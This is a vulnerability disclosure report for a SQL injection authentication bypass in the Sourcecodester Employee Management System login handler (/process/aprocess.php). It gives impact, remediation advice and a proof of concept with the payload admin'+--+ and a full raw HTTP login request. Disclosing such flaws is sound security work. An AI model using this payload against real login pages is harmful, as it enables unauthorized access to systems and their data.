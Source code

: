 # SOURCECODESTER EMPLOYEE MANAGEMENT SYSTEM - SQL Injection Authentication Bypass

### Title: SQL Injection Authentication Bypass
### Affected Component: /process/aprocess.php
### CWE-287: Improper Authentication
### CVSS Base Score: 7.5

### Impact:
SQL injection authentication bypass poses a significant threat by enabling unauthorized access to the system, allowing attackers to exploit vulnerabilities in authentication mechanisms. This can lead to severe consequences including unauthorized entry into sensitive areas, exposure of confidential data, manipulation of system integrity, reputational damage, and potential regulatory compliance violations. The exploit's ability to circumvent authentication safeguards undermines the confidentiality, integrity, and availability of the system, emphasizing the critical need for robust security measures and prompt mitigation of SQL injection vulnerabilities to safeguard against these multifaceted risks.

### Proof of Concept (POC):
To demonstrate the SQL injection authentication bypass vulnerability, begin by accessing the login page of the application. In the username field, input the following payload: `"admin'+--+". This payload aims to manipulate the authentication process by injecting SQL syntax to bypass the login mechanism. Upon submitting the login form with this payload, observe that the application grants access as if logged in as an administrator without requiring a valid password. This indicates successful exploitation of the SQL injection vulnerability, allowing unauthorized access to sensitive areas of the application.

#### HTTP Request:
```http
POST /process/aprocess.php HTTP/1.1
Host: [REDACTED]
Content-Length: 48
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Origin: [REDACTED]
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua-platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: empty
Referer: [REDACTED]
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

mailuid=admin'+--+&pwd=asdasd&login-submit=Login
```
### Remediation:
To address the SQL injection authentication bypass vulnerability, it is crucial to implement robust input validation mechanisms to sanitize user inputs effectively, particularly in critical areas such as authentication processes. Utilizing parameterized queries or prepared statements can help ensure that user-supplied data is treated as data rather than executable code, significantly reducing the risk of SQL injection attacks. Additionally, adopting the principle of least privilege by restricting database permissions and deploying a web application firewall to intercept and filter malicious traffic can provide further protection against such vulnerabilities. Regular security assessments, comprehensive training programs, and prompt patch management are also essential components of a holistic remediation strategy to mitigate the risk of SQL injection vulnerabilities and bolster the overall security posture of web applications.
